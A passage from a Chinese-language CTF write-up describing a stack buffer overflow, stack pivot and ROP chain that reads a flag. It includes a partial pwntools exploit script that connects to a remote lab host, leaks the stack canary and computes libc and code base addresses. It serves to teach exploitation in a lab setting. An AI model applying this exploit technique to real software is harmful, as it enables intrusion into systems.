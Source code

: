         main_fn_addr + 298,
    )
    ```
    此時我們就不需要那麼多的gadget幫助完成該目標


4. 剩下的open / read / write就和lab差不多

:::success
截至目前為止，我們的流程是
1. 設法利用overflow改變n2的數值，使我們能夠輸入更多shell code
2. 先利用第一次的write輸入stack上的重要資訊
3. 因為n2空間還是太小，所以我們需要先擴大能夠寫入的空間，也就是先利用第一次的stack pivot把shellcode寫上去→main+291
4. 執行shellcode後，使rax變大再跳回去main+298
5. 寫入真正的open / read / write讀出flag
:::

:::warning
注意事項:
1. canary
    因為他有開stack protection，所以一定要對好canary在stack上的位置，可以用動態去看，依照這一題的狀況，他是會在rbp+0x40的地方
2. libc version
    這一題因為要leak libc的base address，並且利用ROP gadget達到syscall的目的，所以一定要確定remote server使用的版本是哪一個，光知道大的版本號是有可能會失敗的，因為像我local端到最後有成功，但跑在remote就爛掉了，和@david學長討論過後的結果就是libc version有問題，實際用docker去看彼此的差異就會發現，右邊是我的→22.04.3，而左邊是實際remote的docker開出來的結果→22.04.2，所以我的作法是把docker中的東西拉出來再使用，包含在local端使用以及找gadget
    ![圖片](https://hackmd.io/_uploads/ByiMMYTHa.png)
    ```bash
    $ docker cp /lib/x86_64-linux-gnu/libc.so.6 /mnt/d/Downloads/
    ```
3. IO problem
    這個問題也是很弔詭，會發現我在最後一個send之前還有一個raw_input()，如果拿掉的話在remote一樣會爛掉，這有可能是IO之類的問題，但總之一定要加
:::

## Exploit - BOF + Stack Pivot + ROP

```python
from pwn import *

r = process('./chal', env={"LD_PRELOAD" : "./libc.so.6"})
r = remote('10.113.184.121', 10056)
context.arch = 'amd64'


# Try to trigger length exploit
payload = b'a' * 20
r.sendafter(b"Haaton's name? ", payload)
print(r.recvlines(2))

# Leak stack info
payload = b'HACHAMA'.ljust(0x8, b'\x00')
r.send(payload)
result = r.recv(0x61)
log.info("[-------------Stack Info-------------]")
for i in range(12):
    log.info(hex(u64(result[i * 8:i * 8 + 8])))
log.info("[-------------Stack Info-------------]")

canary = u64(result[7 * 8:7 * 8 + 8])
libc_start_main = u64(result[9 * 8:9 * 8 + 8]) - 0x80
libc_base_addr = libc_start_main - 0x29d90 + 0x80
main_fn_addr = u64(result[11 * 8:11 * 8 + 8])
code_segment_base = main_fn_addr - 0x331

log.success(f'Canary = {hex(canary)}')
log.success(f'libc start main base = {hex(libc_start_main)}')
```